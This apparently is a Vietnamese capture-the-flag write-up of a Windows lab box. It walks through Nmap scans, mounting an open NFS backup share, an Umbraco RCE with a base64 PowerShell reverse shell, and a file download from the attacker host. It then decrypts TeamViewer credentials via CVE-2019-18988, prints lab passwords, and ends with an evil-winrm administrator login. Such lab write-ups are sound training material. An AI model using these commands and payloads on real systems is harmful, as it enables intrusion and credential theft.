









## Description

## Enumeration
### Nmap
```bash
# Nmap 7.95 scan initiated Thu Oct  8 13:20:03 2026 as: nmap -p- --min-rate 10000 -oA nmap/allport 10.129.230.172
Nmap scan report for 10.129.230.172
Host is up (0.080s latency).
Not shown: 65519 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
111/tcp   open  rpcbind
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
2049/tcp  open  nfs
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49678/tcp open  unknown
49679/tcp open  unknown
49680/tcp open  unknown

# Nmap done at Thu Oct  8 13:20:13 2026 -- 1 IP address (1 host up) scanned in 9.33 seconds
# Nmap 7.95 scan initiated Thu Oct  8 13:22:42 2026 as: nmap -sCV -p 21,80,111,135,139,445,2049,5985 -oA nmap/detailport 10.129.230.172
Nmap scan report for 10.129.230.172
Host is up (0.079s latency).

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  nlockmgr      1-4 (RPC #100021)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 58m54s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-10-08T07:22:46
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct  8 13:24:44 2026 -- 1 IP address (1 host up) scanned in 121.66 seconds
```
### SMB - 139,445 và FTP - 21

Không có thông tin gì cả.

### HTTP - 80

Giao diện trang web

Dùng Gobuster để quét:

Nó dẫn đến một endpoint `/umbraco`:

Nhìn vào thì mình đoán yêu cầu đề bài phải đi tìm user/pass.

Tra các authentication default thì không có. Và thử BurpSuite xem có lỗi gì không cũng không có. Vậy mình đoán user/pass chắc chắn nằm trong những dịch vụ còn lại.

### NFS - Port 2049
NFS (Network File System) là giao thức để chia sẻ thư mục qua mạng - giống như "ổ đĩa mạng" của thế giới Linux/Unix. Một máy chủ export một thư mục, máy khác mount thư mục đó vào hệ thống file của mình và dùng như thư mục local.

NFS vốn là thứ thuộc về Unix, hiếm khi thấy trên máy Window. => Cái gì mà thấy bất thường gì chắc chắn đó là ý đồ của tác giả và chúng ta phải khác thác vào điểm đó. 

Lệnh này hỏi máy chủ share những thư mục nào, và cho ai mount?

```bash
showmount -e 10.129.230.172
/site_backups (everyone)
```

Hai thông tin quan trọng:
+ Thư mục được share tên `/site_backups`
+ `(everyone)` nghĩa là bất kỳ ai cũng mount được

Gắn thư mục đó vào máy tính

```bash
mount -t nfs 10.129.230.172:/site_backups /mnt/remote
```

### SDF

`.sdf` là định dạng file của SQL Server Compact Edition - một loại database nhúng, gọn nhẹ của Miscrosoft. 


Crack được mật khẩu:

## Revershell Window

Tìm được version rồi giờ tìm script khai thác

Payload: https://github.com/noraj/Umbraco-RCE

Tạo payload base64 (Tham khảo: [PowerShell Reverse Shell Cheatsheet for Windows | morimori Security Blog](https://morimori-dev.github.io/en/posts/tech-windows-reverse-shell-cheatsheet/))

```bash
echo -n 'payload-reverse' | iconv -t UTF-16LE | base64 -w0
```

Chạy exploit:

```
python3 exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.129.230.172' -c "powershell" -a "-enc <DÁN_CHUỖI_BASE64_VÀO_ĐÂY>"
```

Reverse shell thành công:

## Priv: IIS -> administrator

```bash
PS C:\> tasklist

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0                            0          8 K
System                           4                            0        144 K
Registry                       104                            0     16,084 K
smss.exe                       300                            0      1,184 K
csrss.exe                      404                            0      5,464 K
wininit.exe                    484                            0      6,952 K
csrss.exe                      492                            1      4,752 K
winlogon.exe                   556                            1     14,416 K
services.exe                   632                            0      9,644 K
lsass.exe                      656                            0     14,028 K
...
TeamViewer_Service.exe        3108                            0     18,392 K
...
```

Có một chương trình TeamViewer version 7.

```
PS C:\Users\Public\Desktop> cd "C:\Program Files (x86)\TeamViewer"
lsPS C:\Program Files (x86)\TeamViewer> 


    Directory: C:\Program Files (x86)\TeamViewer


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        2/27/2020  10:35 AM                Version7                                                              


PS C:\Program Files (x86)\TeamViewer> 

```

Kiểm tra thì mình thấy có một CVE-2019-18988
Script: [mr-r3b00t/CVE-2019-18988: TeamViewer Store Credentials Decryption](https://github.com/mr-r3b00t/CVE-2019-18988/tree/master)

Chuyển file script bằng payload:

```bash
Máy Kali:
python3 -m http.server 80
Máy Client:
(New-Object Net.WebClient).DownloadFile('http://10.10.14.30/manual_exploit.bat','C:\Users\Public\manual_exploit.bat')
```

Sau khi chạy script:

```bash
C:\windows\temp>REM # CVE-2019-18988 

C:\windows\temp>REM # Teamviewer Local Privesc 

C:\windows\temp>REM https://community.teamviewer.com/t5/Announcements/Specification-on-CVE-2019-18988/td-p/82264 

C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v Version 

HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7
    Version    REG_SZ    7.0.43148


C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 

HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7
    StartMenuGroup    REG_SZ    TeamViewer 7
    InstallationDate    REG_SZ    2020-02-20
    InstallationDirectory    REG_SZ    C:\Program Files (x86)\TeamViewer\Version7
    Always_Online    REG_DWORD    0x1
    Security_ActivateDirectIn    REG_DWORD    0x0
    Version    REG_SZ    7.0.43148
    ClientIC    REG_DWORD    0x11f25831
    PK    REG_BINARY    BFAD2AEDB6C89AE0A0FD0501A0C5B9A5C0D957A4CC57C1884C84B6873EA03C069CF06195829821E28DFC2AAD372665339488DD1A8C85CDA8B19D0A5A2958D86476D82CA0F2128395673BA5A39F2B875B060D4D52BE75DB2B6C91EDB28E90DF7F2F3FBE6D95A07488AE934CC01DB8311176AEC7AC367AB4332ABD048DBFC2EF5E9ECC1333FC5F5B9E2A13D4F22E90EE509E5D7AF4935B8538BE4A606AB06FE8CC657930A24A71D1E30AE2188E0E0214C8F58CD2D5B43A52549F0730376DD3AE1DB66D1E0EBB0CF1CB0AA7F133148D1B5459C95A24DDEE43A76623759017F21A1BC8AFCD1F56FD0CABB340C9B99EE3828577371B7ADA9A8F967A32ADF6CF062B00026C66F8061D5CFF89A53EAE510620BC822BC6CC615D4DE093BC0CA8F5785131B75010EE5F9B6C228E650CA89697D07E51DBA40BF6FC3B2F2E30BF6F1C01F1BC2386FA226FFFA2BE25AE33FA16A2699A1124D9133F18B50F4DB6EDA2D23C2B949D6D2995229BC03507A62FCDAD55741B29084BD9B176CFAEDAAA9D48CBAF2C192A0875EC748478E51156CCDD143152125AE7D05177083F406703ED44DCACCD48400DD88A568520930BED69FCD672B15CD3646F8621BBC35391EAADBEDD04758EE8FC887BACE6D8B59F61A5783D884DBE362E2AC6EAC0671B6B5116345043257C537D27A8346530F8B7F5E0EBACE9B840E716197D4A0C3D68CFD2126E8245B01E62B4CE597AA3E2074C8AB1A4583B04DBB13F13EB54E64B850742A8E3E8C2FAC0B9B0CF28D71DD41F67C773A19D7B1A2D0A257A4D42FC6214AB870710D5E841CBAFCD05EF13B372F36BF7601F55D98ED054ED0F321AEBA5F91D390FF0E8E5815E6272BA4ABB3C85CF4A8B07851903F73317C0BC77FA12A194BB75999319222516
    SK    REG_BINARY    F82398387864348BAD0DBB41812782B1C0ABB9DAEEF15BC5C3609B2C5652BED7A9A07EA41B3E7CB583A107D39AFFF5E06DF1A06649C07DF4F65BD89DE84289D0F2CBF6B8E92E7B2901782BE8A039F2903552C98437E47E16F75F99C07750AEED8CFC7CD859AE94EC6233B662526D977FFB95DD5EB32D88A4B8B90EC1F8D118A7C6D28F6B5691EB4F9F6E07B6FE306292377ACE83B14BF815C186B7B74FFF9469CA712C13F221460AC6F3A7C5A89FD7C79FF306CEEBEF6DE06D6301D5FD9AB797D08862B9B7D75B38FB34EF82C77C8ADC378B65D9ED77B42C1F4CB1B11E7E7FB2D78180F40C96C1328970DA0E90CDEF3D4B79E08430E546228C000996D846A8489F61FE07B9A71E7FB3C3F811BB68FDDF829A7C0535BA130F04D9C7C09B621F4F48CD85EA97EF3D79A88257D0283BF2B78C5B3D4BBA4307D2F38D3A4D56A2706EDAB80A7CE20E21099E27481C847B49F8E91E53F83356323DDB09E97F45C6D103CF04693106F63AD8A58C004FC69EF8C506C553149D038191781E539A9E4E830579BCB4AD551385D1C9E4126569DD96AE6F97A81420919EE15CF125C1216C71A2263D1BE468E4B07418DE874F9E801DA2054AD64BE1947BE9580D7F0E3C138EE554A9749C4D0B3725904A95AEBD9DACCB6E0C568BFA25EE5649C31551F268B1F2EC039173B7912D6D58AA47D01D9E1B95E3427836A14F71F26E350B908889A95120195CC4FD68E7140AA8BB20E211D15C0963110878AAB530590EE68BF68B42D8EEEB2AE3B8DEC0558032CFE22D692FF5937E1A02C1250D507BDE0F51A546FE98FCED1E7F9DBA3281F1A298D66359C7571D29B24D1456C8074BA570D4D0BA2C3696A8A9547125FFD10FBF662E597A014E0772948F6C5F9F7D0179656EAC2F0C7F
    LastMACUsed    REG_MULTI_SZ    \0005056B0A059
    MIDInitiativeGUID    REG_SZ    {514ed376-a4ee-4507-a28b-484604ed0ba0}
    MIDVersion    REG_DWORD    0x1
    ClientID    REG_DWORD    0x6972e4aa
    CUse    REG_DWORD    0x1
    LastUpdateCheck    REG_DWORD    0x64c273d8
    UsageEnvironmentBackup    REG_DWORD    0x1
    SecurityPasswordAES    REG_BINARY    FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B
    MultiPwdMgmtIDs    REG_MULTI_SZ    admin
    MultiPwdMgmtPWDs    REG_MULTI_SZ    357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77
    Security_PasswordStrength    REG_DWORD    0x3

HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7\AccessControl
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7\DefaultSettings

C:\windows\temp>reg query HKLM\SOFTWARE\TeamViewer\Temp /v SecurityPasswordExported 

C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 

HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7
    StartMenuGroup    REG_SZ    TeamViewer 7
    InstallationDate    REG_SZ    2020-02-20
    InstallationDirectory    REG_SZ    C:\Program Files (x86)\TeamViewer\Version7
    Always_Online    REG_DWORD    0x1
    Security_ActivateDirectIn    REG_DWORD    0x0
    Version    REG_SZ    7.0.43148
    ClientIC    REG_DWORD    0x11f25831
    PK    REG_BINARY    BFAD2AEDB6C89AE0A0FD0501A0C5B9A5C0D957A4CC57C1884C84B6873EA03C069CF06195829821E28DFC2AAD372665339488DD1A8C85CDA8B19D0A5A2958D86476D82CA0F2128395673BA5A39F2B875B060D4D52BE75DB2B6C91EDB28E90DF7F2F3FBE6D95A07488AE934CC01DB8311176AEC7AC367AB4332ABD048DBFC2EF5E9ECC1333FC5F5B9E2A13D4F22E90EE509E5D7AF4935B8538BE4A606AB06FE8CC657930A24A71D1E30AE2188E0E0214C8F58CD2D5B43A52549F0730376DD3AE1DB66D1E0EBB0CF1CB0AA7F133148D1B5459C95A24DDEE43A76623759017F21A1BC8AFCD1F56FD0CABB340C9B99EE3828577371B7ADA9A8F967A32ADF6CF062B00026C66F8061D5CFF89A53EAE510620BC822BC6CC615D4DE093BC0CA8F5785131B75010EE5F9B6C228E650CA89697D07E51DBA40BF6FC3B2F2E30BF6F1C01F1BC2386FA226FFFA2BE25AE33FA16A2699A1124D9133F18B50F4DB6EDA2D23C2B949D6D2995229BC03507A62FCDAD55741B29084BD9B176CFAEDAAA9D48CBAF2C192A0875EC748478E51156CCDD143152125AE7D05177083F406703ED44DCACCD48400DD88A568520930BED69FCD672B15CD3646F8621BBC35391EAADBEDD04758EE8FC887BACE6D8B59F61A5783D884DBE362E2AC6EAC0671B6B5116345043257C537D27A8346530F8B7F5E0EBACE9B840E716197D4A0C3D68CFD2126E8245B01E62B4CE597AA3E2074C8AB1A4583B04DBB13F13EB54E64B850742A8E3E8C2FAC0B9B0CF28D71DD41F67C773A19D7B1A2D0A257A4D42FC6214AB870710D5E841CBAFCD05EF13B372F36BF7601F55D98ED054ED0F321AEBA5F91D390FF0E8E5815E6272BA4ABB3C85CF4A8B07851903F73317C0BC77FA12A194BB75999319222516
    SK    REG_BINARY    F82398387864348BAD0DBB41812782B1C0ABB9DAEEF15BC5C3609B2C5652BED7A9A07EA41B3E7CB583A107D39AFFF5E06DF1A06649C07DF4F65BD89DE84289D0F2CBF6B8E92E7B2901782BE8A039F2903552C98437E47E16F75F99C07750AEED8CFC7CD859AE94EC6233B662526D977FFB95DD5EB32D88A4B8B90EC1F8D118A7C6D28F6B5691EB4F9F6E07B6FE306292377ACE83B14BF815C186B7B74FFF9469CA712C13F221460AC6F3A7C5A89FD7C79FF306CEEBEF6DE06D6301D5FD9AB797D08862B9B7D75B38FB34EF82C77C8ADC378B65D9ED77B42C1F4CB1B11E7E7FB2D78180F40C96C1328970DA0E90CDEF3D4B79E08430E546228C000996D846A8489F61FE07B9A71E7FB3C3F811BB68FDDF829A7C0535BA130F04D9C7C09B621F4F48CD85EA97EF3D79A88257D0283BF2B78C5B3D4BBA4307D2F38D3A4D56A2706EDAB80A7CE20E21099E27481C847B49F8E91E53F83356323DDB09E97F45C6D103CF04693106F63AD8A58C004FC69EF8C506C553149D038191781E539A9E4E830579BCB4AD551385D1C9E4126569DD96AE6F97A81420919EE15CF125C1216C71A2263D1BE468E4B07418DE874F9E801DA2054AD64BE1947BE9580D7F0E3C138EE554A9749C4D0B3725904A95AEBD9DACCB6E0C568BFA25EE5649C31551F268B1F2EC039173B7912D6D58AA47D01D9E1B95E3427836A14F71F26E350B908889A95120195CC4FD68E7140AA8BB20E211D15C0963110878AAB530590EE68BF68B42D8EEEB2AE3B8DEC0558032CFE22D692FF5937E1A02C1250D507BDE0F51A546FE98FCED1E7F9DBA3281F1A298D66359C7571D29B24D1456C8074BA570D4D0BA2C3696A8A9547125FFD10FBF662E597A014E0772948F6C5F9F7D0179656EAC2F0C7F
    LastMACUsed    REG_MULTI_SZ    \0005056B0A059
    MIDInitiativeGUID    REG_SZ    {514ed376-a4ee-4507-a28b-484604ed0ba0}
    MIDVersion    REG_DWORD    0x1
    ClientID    REG_DWORD    0x6972e4aa
    CUse    REG_DWORD    0x1
    LastUpdateCheck    REG_DWORD    0x64c273d8
    UsageEnvironmentBackup    REG_DWORD    0x1
    SecurityPasswordAES    REG_BINARY    FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B
    MultiPwdMgmtIDs    REG_MULTI_SZ    admin
    MultiPwdMgmtPWDs    REG_MULTI_SZ    357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77
    Security_PasswordStrength    REG_DWORD    0x3

HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7\AccessControl
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7\DefaultSettings

C:\windows\temp>reg query HKLM\SOFTWARE\TeamViewer\Version7 

C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v SecurityPasswordExported 


C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v ServerPasswordAES  


C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v ProxyPasswordAES 


C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v LicenseKeyAES 


C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v OptionsPassword 


C:\windows\temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v PermanentPassword 


C:\windows\temp>REM CYBERCHEF RECIPE  

C:\windows\temp>REM AES_Decrypt({'option':'Hex','string':'0602000000a400005253413100040000'},{'option':'Hex','string':'0100010067244F436E6762F25EA8D704'},'CBC','Hex','Raw',{'option':'Hex','string':''})Decode_text('UTF-16LE (1200)') 
PS C:\windows\temp> The system was unable to find the specified registry key or value.
```

Sử dụng CyberChef để decrypt:

Vào root thành công:

```bash
#evil-winrm -i 10.129.230.172 -u administrator -p '!R3m0te!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
